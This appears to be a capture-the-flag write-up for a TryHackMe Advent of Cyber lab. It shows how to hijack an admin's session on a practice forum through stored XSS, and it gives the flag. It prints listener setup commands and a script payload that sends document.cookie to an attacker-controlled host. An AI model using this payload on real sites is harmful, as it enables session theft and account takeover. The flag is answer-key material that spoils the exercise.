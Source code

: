 ## Introduction

> McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT   
> _we need to learn more about the christmas monster_   
> During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.  
> Access the machine at http://[your-ip-address]:3000 - it may take a few minutes to deploy.   

> [Check out the supporting material here](./Supporting_Docs.pdf).

> P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth.


## Questions

> What is the admin's authid cookie value?

td:lr Answer: **2564799a4e6689972f6d9e1c7b406f87065cbf65**


===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can start a web browser and navigate to the IP address provided:

`<ip>:3000`

![](./res/pic1.png)

We need to register for an account and log in. Then we will see a simple forum layout within:

![](./res/pic2.png)

For this exercise, we need to steal admin's authid cookie value and have it submitted to a remote page hosted by us so we see its value.

So first we need to create a root directory, and create a index.html and a PHP page:

`mkdir cookiestealer`  
`cd cookiestealer/`  
`touch index.html`  
`touch cookiestealer.php`

Within the index.html, we can setup some parameters to test it's working:

> <html>  
> <head>  
> <title> Stealer!</title>  
> </head>  
> <body>  
> <script type="text/javascript">  
> urlstring = new URL(window.location.href);
> document.write("Cookie value: " + urlstring.searchParams.get("c")); 
> </script>

Let's set up our simple web hosting using php:

`php -S <ip>:80`  
then we open a web browser and go to that IP:

![](./res/pic3.png)

Ok our page is working, and we successfully grabbed the URL param.

We can also see the URL params on our command line:

![](./res/pic4.png)

Now all we need to do is perform a simple XSS injection into the forum, such that anyone who visits the forum will automatically have its cookie redirected to our web page.

Back at the forum, let's inject this into the forum post:

`<script type="text/javascript"> document.location='http://<ip>/index.html?c='+document.cookie; </script>`

Now all we need to do is wait for the admin to visit the forum, then our XSS scripting post will redirect admin's cookie to our web page...

Check out our command line after a few minutes:

![](./res/pic5.png)

And there we got the admin's authid cookie value: **2564799a4e6689972f6d9e1c7b406f87065cbf65**




